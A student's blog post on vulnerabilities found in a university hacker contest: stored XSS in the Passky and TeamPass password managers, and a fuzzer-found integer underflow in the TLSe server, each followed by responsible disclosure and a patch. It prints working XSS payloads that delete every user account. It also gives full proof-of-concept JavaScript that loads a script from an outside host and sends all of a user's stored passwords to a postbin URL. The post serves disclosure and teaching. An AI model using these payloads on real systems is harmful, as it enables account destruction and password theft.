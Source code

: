 # Finding Security Vulnerabilities in Open-Source Repos

This winter semester I took part in the TU Darmstadt [Hacker
Contest](https://www.usd.de/abschluss-hacker-contest-wise-2023-2024/), where we had an exercise in which we had to find
security vulnerabilities in open source repositories. In this blog post I will share my findings. It's nothing crazy,
but it was still fun to find them. The results of the exercise were two XSS in [two](#passky) [different](#teampass) password managers by analysing the source code and an integer underflow in a [TLS server](#tlse) by fuzzing.

<div id="passky"></div>

## Passky

Passky, which is listed on the [awesome self hosted list](https://github.com/awesome-selfhosted/awesome-selfhosted?tab=readme-ov-file#password-managers) is "the most unbloated password manager". It has
just under [200 Stars on GitHub](https://github.com/Rabbit-Company/Passky-Server) and also offers [paid premium accounts](https://passky.org/pricing).


### Vulnerability

Searching for `innerHTML` in the JavaScript code for the admin page immediately produces several
hits. The most promising is shown below.

<figure>
  <p> <img src="hackercontest/passky-innerHtml.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 1: Injection user controlled input using innerHTML.</p>
  </figcaption>
</figure>

Here user controlled data is loaded as JSON and then injected into the HTML dom using `innerHTML`. The source of the email is the registration site where the user can register with an email. The email is then stored in the `createAccount` function within the `Database.php` file where the input is not XSS sanitized as shown below.

<div id="f2"></div>
<figure>
  <p> <img src="hackercontest/passky-email-sanitation.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 2: E-Mail sanitation</p>
  </figcaption>
</figure>

This leads to an XSS on the admin panel via a user controlled email.

### Exploit

To build an XSS exploit for this vulnerability, the following limitations need to be considered.

- ~74 character limit before \@ (the limit differs for different inputs)
- Only lowercase letters
- "[]" are not allowed
- Strong Content Security Policy

But with the help of a [fellow student](https://github.com/PatrickBidinger) we found a way to bypass these limitation using two stages (linebreaks in the email is just for formatting here):

```html
// Assign document.querySelector to the window with a shorter name as the email is limited to a short amount of chars

<img src=x
  onerror="window.a=document.query&#x53;elector.bind(document)">@test.de

// Get the first user (attackers one should be the last ones) and then call the function deleteAccount to delete the user

<img src=x 
  onerror="delete&#x41;ccount(a('td .text-sm').inner&#x54;ext)">@test.de

// deleteAccount will reload the page and the payload is executed again until no user is left (exepct the attackers last one)
```

When the admin then opens the admin panel, it will list all users including their email addresses.
Since the JS-Code is not filtered or escaped properly, it will execute and delete the first user
account int he list. This triggers the page to reload, which again leads to the deletion of the next
user. After repeating this over and over again, all users but the malicious user accounts will be
deleted (including all of their data and stored passwords). 


<figure>
  <p> <img src="hackercontest/passky-deleting.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 3: Deleting all the accounts.</p>
  </figcaption>
</figure>


### Responsible Disclosure

The vulnerability was reported via Discord to the main author. As patch I recommended the use of `htmlentities`:

```git
--- a/server/src/Database.php
+++ b/server/src/Database.php
@@ -319,7 +319,7 @@ class Database{
                if(!preg_match("/^[a-z0-9]{128}$/i", $password)) return Display::json(5);

                $username = strtolower($username);
-               $email = strtolower($email);
+               $email = htmlentities(strtolower($email));
                $encrypted_password = self::encryptPassword($password);

                switch(self::isUsernameTaken($username)){
```

The author fixed the issue within a day and his responses were fast. I was even offered a Bug Bounty of 100€.

### Patch

The author fixed the vulnerability with the commit [`10882e6`](https://github.com/Rabbit-Company/Passky-Server/commit/10882e6a0a1fd6b946ad4dc7deb20c71d5eaf0cf). He also found additional
places where the sanitation of the user input was not good enough.


<div id="teampass"></div>

## TeamPass 

As Passky [TeamPass](https://github.com/nilsteampassnet/TeamPass) was found via the [awesome self hosted list](https://github.com/awesome-selfhosted/awesome-selfhosted?tab=readme-ov-file#password-managers). TeamPass has over 1700
Stars on GitHub and "is a Collaborative Passwords Manager solution installed On-Premise." 


### Vulnerability

The procedure was similar to Passky. I cloned the repo and search for the `innerHTML` sink. I found a place
where the password is injected using `innerHTML` but while trying out I have noticed that the
password is sanitized before it is stored in the database. But going through the code I found that
the `tags` are not `htmlspecialchars` encoded but decoded as shown below.


<figure>
  <p> <img src="hackercontest/teampass-vulncode.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 4: Tags are htmlspecialchars_decode</p>
  </figcaption>
</figure>


The tags are then later injected using JQuery in a insecure way leading to an XSS.

<figure>
  <p> <img src="hackercontest/teampass-script_tag.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 5: Tags are included insecurely</p>
  </figcaption>
</figure>


### Exploit

As TeamPass is a collaborative password manager an attacker could inject the XSS in a shared
password which is then executed in another users browser session allowing the attacker to extract
all passwords of this user. I also wrote a small POC which exfiltrates all passwords from another
user with higher privileges.

The first script of the exploit places the XSS by creating a script tag which includes a src
attribute where the next stage of the exploit is located as the tags have a length limit.

```js
function getKey() {
    return JSON.parse(localStorage["teampassUser"]).sessionKey;
}
var data = {
    "anyone_can_modify": 0,
    "complexity_level": 0,
    "description": "",
    "diffusion_list": [],
    "diffusion_list_names": [],
    "folder": 2,
    "email": "",
    "fields": [],
    "folder_is_personal": 0,
    "id": "",
    "label": "test",
    "login": "",
    "pw": "",
    "restricted_to": [],
    "restricted_to_roles": [],
    "tags": "<script\nsrc=http://tsmr.eu/_>",
    "template_id": null,
    "to_be_deleted_after_x_views": "",
    "url": "",
    "user_id": 10000000,
    "uploaded_file_id": "",
    "fa_icon": "",
    "otp_is_enabled": 0,
    "otp_phone_number": "",
    "otp_secret": ""
}


$.post(
    "sources/items.queries.php", {
    type: "update_item",
    data: prepareExchangedData(JSON.stringify(data), "encode", getKey()),
    key: getKey()
},
    function (data) {
        data = prepareExchangedData(data, "decode", getKey());
        console.log(data);
    }
)
```

The script which is then executed first loads a list of all passwords. It then sends a GET request to the attacker
controlled server on which the attacker can get the passwords as shown below.

<figure>
  <p> <img src="hackercontest/teampass-password_exfiltrate.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 6: Passwords which where exfiltrate by the XSS</p>
  </figcaption>
</figure>


```js
// This POC script is loaded via the script tag and then loads all passwords and sends them to a postbin.

waiting_for_passwords = 0
stolenPasswords = {}

function getKey() {
    return JSON.parse(localStorage["teampassUser"]).sessionKey;
}

function getPassword(item_key, callback) {
    var key = getKey();
    $.ajax({
        type: "POST",
        async: false,
        url: 'sources/items.queries.php',
        data: 'type=show_item_password&item_key=' + item_key + '&key=' + key,
        dataType: "",
        success: function (data) {
            try {
                data = prepareExchangedData(data, "decode", key);
                callback(item_key, true, atob(data["password"]));
            } catch (e) {
                callback(item_key, false, null)
                return false;
            }
        },
        onerror: function () {
            callback(item_key, false, null)
        }
    });
}

function gotNewPassword(item_key, status, password) {
    stolenPasswords[item_key].password = password;
    stolenPasswords[item_key].password_status = status;
    waiting_for_passwords -= 1;
}

function getFolderIds() {
    return JSON.parse(localStorage["teampassApplication"]).foldersList.map((x) => x.id);
}


function loadFolderInfo(folderId, callback) {
    var key = getKey();
    var dataArray = {
        id: folderId,
        restricted: "",
        start: 0,
        uniqueLoadData: "",
        nb_items_to_display_once: 100000,
    };

    $.post('sources/items.queries.php', {
        type: 'do_items_list_in_folder',
        data: prepareExchangedData(JSON.stringify(dataArray), 'encode', key),
        key: key,
    },
        function (retData) {
            //get data
            data = decodeQueryReturn(retData, key, 'items.queries.php', 'do_items_list_in_folder');
            for (var item in data["html_json"]) {
                item = data["html_json"][item];
                stolenPasswords[item["item_key"]] = item;
                waiting_for_passwords += 1
                getPassword(item["item_key"], gotNewPassword);

            }
            callback()
        })
}

function recursiveLoadFolders(folderIds, finish) {
    if (folderIds.length == 0)
        return finish()
    let folderid = folderIds.pop();
    loadFolderInfo(folderid, () => {
        recursiveLoadFolders(folderIds, finish);
    })
}

var folderIds = getFolderIds();
recursiveLoadFolders(folderIds, () => {
    while (waiting_for_passwords != 0) { }
    as_json = JSON.stringify(Object.values(stolenPasswords))
    fetch("https://www.postb.in/1730158735475-0322664373088?" + as_json)
});
```

### Responsible Disclosure

Since my emails were ending up in spam with the main author and a main contributor, I asked in a [GitHub issue](https://github.com/nilsteampassnet/TeamPass/issues/4399#issuecomment-2468267771) if they could see the emails, they responded and quickly fixed the issue.


### Patch

The patch is straight forward as they only have to replace the decode with the encode function as shown below.

<figure>
  <p> <img src="hackercontest/teampass-vulncode.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 7: Fix</p>
  </figcaption>
</figure>

The vulnerability was fixed with [PR 4457](https://github.com/nilsteampassnet/TeamPass/pull/4457).


<div id="tlse"></div>

## TLSe

[TLSe](https://github.com/eduardsui/tlse), which has over 500 Stars on GitHub is a "single C file TLS 1.3, 1.2, 1.1 and
1.0 (without the weak ciphers) implementation, using libtomcrypt as crypto library."

### Vulnerability

As my goal was to find a memory corruption a a small fuzzing environment was created where 5 different open source repos
written in C where fuzzed. The only crash was in the TLSe server which is described below.

TLSe repo multiple different harnesses where created, one for the TLS client hello, one for the TLS client certificate and one
for the ANSI parser.

As I am a Rustacean the harness was written in Rust - of course - for this [`afl.rs`](https://rust-fuzz.github.io/book/afl.html) was used. For this I compiled TLSe to a static library
and used bindgen to generate the header files for Rust so I am able to call the C functions in Rust. I created a small
helper crate which was responsible for setting up the server and sending the input buffer to the target.

```rust
pub struct FuzzServer {
    context: *mut TLSContext,
    fragmenting: bool
}

impl FuzzServer {

    pub fn new_tcp(fragmenting: bool) -> FuzzServer {
        unsafe {
            let context = SSL_CTX_new(SSLv3_server_method());
            let context = SSL_new(context);
            SSL_set_fd(context, -1); // socket is wrapped...
            FuzzServer {
                context, fragmenting
            }
        }
    }

    pub fn send_fuzzing_input_raw(&mut self, input: &mut [u8]) -> i32 {

        if self.fragmenting {
            todo!("Implement Logic to fragmenting the sending");
        }

        unsafe {tls_consume_stream(self.context, input.as_mut_ptr(), input.len() as c_int, None)}
    }

// ...
```

With theses helper functions multiple harnesses for the different targets like the Client Hello or the Client Certificate
Parse function shown below can be easily created.

```rust
#[macro_use]
extern crate afl;
use anyhow::{Result};
use mytlse::client::{FuzzServer};

fn execute_fuzz_target(buf: &[u8]) -> Result<(i32)> {
    let mut ret = 0;
    unsafe {
        let mut myserver = FuzzServer::new_tcp(false);
        let mut buf = buf.to_vec();
        ret = myserver.send_fuzzing_input_raw(&mut buf);
    }
    Ok((ret))
}

#[cfg(fuzzing)]
fn main() {
    fuzz!(|data: &[u8]| {
        execute_fuzz_target(data);
    });
}

#[cfg(not(fuzzing))]
fn main() {
    let client_hello = FuzzServer::get_client_hello();
    execute_fuzz_target(&client_hello).unwrap();
}
```

For the client certificate request the fuzzer found multiple crashes in a matter of minutes.


<figure>
  <p> <img src="hackercontest/tlse-fuzzer_crashes.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 8: AFL++ found multiple crashes.</p>
  </figcaption>
</figure>

After debugging, the crashes could be identified as an integer underflow because of a wrong size check.

<figure>
  <p> <img src="hackercontest/tlse-wrong_size_check.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 9: Wrong size check leading to an integer underflow.</p>
  </figcaption>
</figure>

As shown Figure 9 the `size` variable is parsed from user-controlled input and then used
to subtract from the `remaining` variable. This leads to an integer overflow of the `remaining`
variable. This will cause the variable `res2` will get too big, leading to an `EXC_BAD_ACCESS` error
when `res2` is used to access data from `buf`.

### Exploit

With the crash file of the fuzzer it is possible to crash the target, but as the variable which is underflow is only
used to access data it is not possible to exploit it further.

### Responsible Disclosure

The crash was first reported via mail without any response (probably also landed in spam). After opening an [GitHub Issue](https://github.com/eduardsui/tlse/issues/105) the author responded directly and asking for an PR which fixes the issue. 

Which was done with [this](https://github.com/eduardsui/tlse/pull/106) PR.

### Patch

The patch is to change the comparison parameters to ensure that `size` is smaller then `remaining` before it is
subtracted from it.

<figure>
  <p> <img src="hackercontest/tlse-fix.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 10: Fix.</p>
  </figcaption>
</figure>


## Conclusion

In conclusion, it was a great time searching for vulnerabilities in open-source repositories. The experience was made
even better by the quick responses from the maintainers, who are all dedicated to improving their projects.